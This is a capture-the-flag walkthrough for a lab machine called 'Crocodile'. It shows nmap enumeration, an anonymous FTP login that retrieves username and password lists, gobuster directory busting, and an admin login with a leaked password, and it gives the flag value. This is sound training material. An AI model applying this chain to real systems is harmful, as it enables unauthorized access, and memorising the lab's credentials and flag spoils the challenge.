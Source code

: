 # CTF Walkthrough: Crocodile

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** FTP, Gobuster, Directory busting
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV -sC 10.129.1.15`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            21/tcp open  ftp     vsftpd 3.0.3
            | ftp-syst:
            |   STAT:
            | FTP server status:
            |      Connected to ::ffff:10.10.14.170
            |      Logged in as ftp
            |      TYPE: ASCII
            |      No session bandwidth limit
            |      Session timeout in seconds is 300
            |      Control connection is plain text
            |      Data connections will be plain text
            |      At session startup, client count was 1
            |      vsFTPd 3.0.3 - secure, fast, stable
            |_End of status
            | ftp-anon: Anonymous FTP login allowed (FTP code 230)
            | -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
            |_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
            80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
            |_http-title: Smash - Bootstrap Business Template
            |_http-server-header: Apache/2.4.41 (Ubuntu)
            Service Info: OS: Unix
            ```

2. Log in to FTP with Anonymous
    - Command: `ftp anonymous@10.129.1.15`

3. In FTP
    - List all files
        - Command: `ls`
            - Output:
                ```
                -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
                -rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
                ```
    - Download both files
        - Command: 
            ```
            get allowed.userlist
            get allowed.userlist.passwd
            ```
    - Show contents of the files
        - Command: `cat allowed.userlist`
            - Output:
                ```
                1   │ aron
                2   │ pwnmeow
                3   │ egotisticalsw
                4   │ admin
                ```
        - Command: `cat allowed.userlist.passwd`
            - Output:
                ```
               1   │ root
               2   │ Supersecretpassword1
               3   │ @BaASD&9032123sADS
               4   │ rKXM59ESxesUFHAd
                ```
    - Add 10.129.1.15 to /etc/hosts
        - Command: `sudo vim /etc/hosts`
            - Output:
                ```
                10.129.1.15 crocodile.htb
                ```

    - Directory bust
        - Command: `gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u crocodile.htb -x .php`
            - Output:
                ```
                ===============================================================
                Starting gobuster in directory enumeration mode
                ===============================================================
                ...
                /login.php            (Status: 200) [Size: 1577]
                ...
                ```
    - Log in to `crocodile.htb/login.php`
        - Username: admin
        - Password: rKXM59ESxesUFHAd

    - Get Flag
        - Flag: c7110277ac44d78b6a9fff2232434d16


